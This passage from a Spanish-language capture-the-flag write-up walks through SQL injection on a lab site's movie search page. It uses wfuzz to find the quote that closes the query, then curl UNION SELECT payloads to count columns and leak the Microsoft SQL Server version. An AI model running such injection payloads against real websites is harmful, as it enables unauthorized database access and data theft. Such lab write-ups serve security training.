 Lo comprobamos facilmente buscando el caracter que cierre la query, vemos que sale el carcter "%"
```bash
└─$ wfuzz --hh=1031 -w /usr/share/seclists/Fuzzing/special-chars.txt -X POST -d "q=SithFUZZ" \
'https://watch.streamio.htb/search.php' | grep -E "W|L"
* Wfuzz 3.1.0 - The Web Fuzzer                         *
ID           Response   Lines    Word       Chars       Payload
000000006:   200        41 L     106 W      1342 Ch     "%"                                                   
000000008:   200        41 L     106 W      1342 Ch     "&"

└─$ wfuzz --hh=1031 -w /usr/share/seclists/Fuzzing/special-chars.txt -X POST -d "q=Sith%FUZZ-- -" \
'https://watch.streamio.htb/search.php' | grep -E "W|L"
* Wfuzz 3.1.0 - The Web Fuzzer                         *
ID           Response   Lines    Word       Chars       Payload                                               
000000029:   200        41 L     106 W      1342 Ch     "'"                                                   
000000008:   200        41 L     106 W      1342 Ch     "&"                                                   
000000005:   200        33 L     77 W       1031 Ch     "$"                                
```
Por tanto cierra con `'` y no con `"` o parentesis etc, la query correcta es por tanto `(...) WHERE title like '%<query>%'`

Lo siguiente es buscar el numero de columnas, añadiendo `uncion select (...)-- -` y con numeros hasta que de correcto.
Hay que hacer una query que no de resultados, como `-d "q=test"` ¿Cuantas?
```bash
└─$ curl -sk 'https://watch.streamio.htb/search.php' -X POST  -H 'Content-Type: application/x-www-form-urlencoded' -d "q=test' union select 1,2,3-- -" | wc -c 
1031

(...)

└─$ curl -sk 'https://watch.streamio.htb/search.php' -X POST  -H 'Content-Type: application/x-www-form-urlencoded' -d "q=test' union select 1,2,3,4,5,6-- -" | wc -c 
1296                                                                                                                 
```
Por tanto hay seis columnas en la base de datos actual. Pero ¿Cuales son las que se muestran por pantalla?. Respuesta, la 2
```bash
└─$ curl -sk 'https://watch.streamio.htb/search.php' -X POST  -H 'Content-Type: application/x-www-form-urlencoded' -d "q=test' union select @@version,2,3,4,5,6-- -" | html2text
                               [static/logo.png]
**** Search for a movie: ****
[q                   ] Search # o sea no

└─$ curl -sk 'https://watch.streamio.htb/search.php' -X POST  -H 'Content-Type: application/x-www-form-urlencoded' -d "q=test' union select 1,@@version,3,4,5,6-- -" | html2text | grep -v "^$"
                               [static/logo.png]
**** Search for a movie: ****
[q                   ] Search
** Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) Sep 24 2019 13:48:23
Copyright (C) 2019 Microsoft Corporation Express Edition (64-bit) on Windows
Server 2019 Standard 10.0  (Build 17763: ) (Hypervisor) **
3 Watch                                                                                                                
```
Ahora habrá que extraer informacion de la base de datos, como sale un output lleno de ruido (`**** Search for a movie:...`)
hay que limpiarlo, estuve trabajando en un script que automatiza esa tarea al que llame `query.sh`
```bash
#!/bin/bash
echo "QUERY: q=test' union select 1,<query> -- -"
```